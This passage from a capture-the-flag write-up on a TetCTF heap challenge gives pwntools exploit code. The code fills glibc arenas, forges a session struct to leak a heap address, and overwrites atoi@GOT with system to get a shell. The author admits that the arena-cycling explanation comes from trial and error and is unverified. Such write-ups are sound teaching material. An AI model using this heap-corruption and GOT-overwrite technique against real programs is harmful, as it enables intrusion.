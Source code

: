 Now the next `malloc()` should be into the `main arena`, but not really. The way allocation works after filling the arenas is weird. I haven't read any resource about it yet, but as I experimented it, it seems like the program cycles through each of the arena on each thread to make new allocations. I'm not really sure about this, but what I did was doing trials-and-errors and I found that if I create 7 dummy notes, the 8th one will by in `main arena`, also set the note size to `0x90` to be the same as a `session` struct.
```python
# Fill all 8 created arenas with 8 notes
r.sendline("1")
r.sendlineafter("Size: \n", str(0x90))
r.sendafter("Content: \n", "0"*8) # note 0
for i in range(1, 8):
    add_note(0x90, chr(i)*8) # note 1 -> 7

# Next note will be in main arena, overwrite freed session -> overwrite full name to leak heap
payload1 = p64(0) + p64(1)
payload1 += p64(0) # sess_id
payload1 += p64(2) + p64(0x100000eee) + p64(0)*3 # mutex lock
payload1 += p64(0x603190) # full name -> leak
add_note(0x90, payload1) # note 8
show()
r.recvuntil("Your name: ")
heap = u64(r.recv(4) + b'\0'*4) - 0x19f0
log.info("heap: {}".format(hex(heap)))
```

I used this note to overwrite `fullname` to a pointer to the `session list` (the binary has `No PIE`) to leak `heap` address. I also had to make sure that the other overwritten fields of `session` are acceptable by the process, especially the `mutex_lock` one.

## Overwrite GOT and get shell
Now I can use `edit` to overwrite `str_session->head` to the start of `session` struct, where I created a fake `note` whose `str_note->content` points to `atoi@GOT`. Then editting this note again to overwrite `atoi@GOT` to `system`. For the next prompt to make a choice to the options, I could just pass `sh` to it, then `atoi("sh")` will be called, which actually is `system("sh")` now.
```python
# Edit to point to atoi@GOTS
payload2 = p64(0) + p64(0x90)
payload2 += p64(b.got["atoi"]) # sess_id
payload2 += p64(2) + p64(0x100000eee) + p64(0)*3 # mutex lock
payload2 += p64(0) # full name
payload2 += p64(0)*6 # username
payload2 += p64(1) # note_id
payload2 += p64(heap + 0xe90) # head
payload2 += p64(heap + 0xe90) # tail
edit_note(0, payload2)

# Edit again to overwrite atoi@GOTS
edit_note(0, p64(l.symbols["system"]))

# Get shell
r.sendlineafter("choice: \n", "sh")
```

The flag is:
```
TetCTF{vina: *100*50421406550161#}
```

## Appendix
The full exploit is `a.py`.